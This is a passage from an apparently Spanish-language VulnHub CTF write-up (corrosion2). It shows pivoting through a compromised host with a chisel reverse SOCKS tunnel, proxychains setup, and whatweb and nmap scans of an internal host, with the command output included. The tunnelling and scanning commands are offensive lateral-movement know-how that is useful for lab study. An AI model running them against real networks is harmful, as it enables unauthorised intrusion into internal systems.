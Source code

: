 Tambien se puede establecer la conexion para todas las comunicaciones desde el equipo corrosion1 mediante sock, redirigir todas las comunicaciones establecidas.
```java
bash-5.0# ./chisel client 192.168.200.147:1234 R:socks
2023/01/20 10:33:45 client: Connecting to ws://192.168.200.147:1234
2023/01/20 10:33:45 client: Connected (Latency 1.129892ms)
```
Cuando se establece la comunicación mediante socks, se debe configurar la comunicacións `sokcs5` en el archivo `/etc/proxychains4.conf`.
```java
ProxyList
# add proxy here
# meanwile
# defaults set to "tor"
# socks4    127.0.0.1 9050
socks5  127.0.0.1 1080
```
Una vez establecida la conexión, mediante chisel, podemos utilizar proxychains para hacer escaneo al equipos `corrosion1`.
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/nmap]
└─# proxychains4 whatweb http://192.168.210.129
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.129:80  ...  OK
http://192.168.210.129 [200 OK] Apache[2.4.46], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.46 (Ubuntu)], IP[192.168.210.129], Title[Apache2 Ubuntu Default Page: It works]
```                                                                                                                               
Escaneo de nmap con proxychains
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/nmap]
└─# proxychains nmap --top-ports 1000 -sT -Pn --open -T5 -vvvv -n 192.168.210.129 -oG allPortsc1 2>/dev/null
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-20 12:55 -05
Initiating Connect Scan at 12:55
Scanning 192.168.210.129 [1000 ports]
Discovered open port 80/tcp on 192.168.210.129
Discovered open port 22/tcp on 192.168.210.129
Completed Connect Scan at 12:55, 4.64s elapsed (1000 total ports)
Nmap scan report for 192.168.210.129
Host is up, received user-set (0.0052s latency).
Scanned at 2023-01-20 12:55:50 -05 for 5s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 4.77 seconds
```
Escaneo de nmap utilizando hilos con xagrs, recoore todos los puertos 
```java          
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/nmap]
└─# seq 1 65535 | xargs -P 50 -I{} proxychains nmap -p{} -sT -Pn --open -T5 -vvvv -n 192.168.210.129 -oG allPortsc1 2>/dev/null | grep open
Discovered open port 22/tcp on 192.168.210.129
22/tcp open  ssh     syn-ack
Discovered open port 80/tcp on 192.168.210.129
80/tcp open  http    syn-ack
```
Una vez identificado los puertos abiertos, para navergar directamente a la IP 192.168.210.129, se debe configurar un servidor proxyweb por la comunicación socks5.
> ![alt text](https://i.postimg.cc/nzCmmMXt/foxyproxy.png)
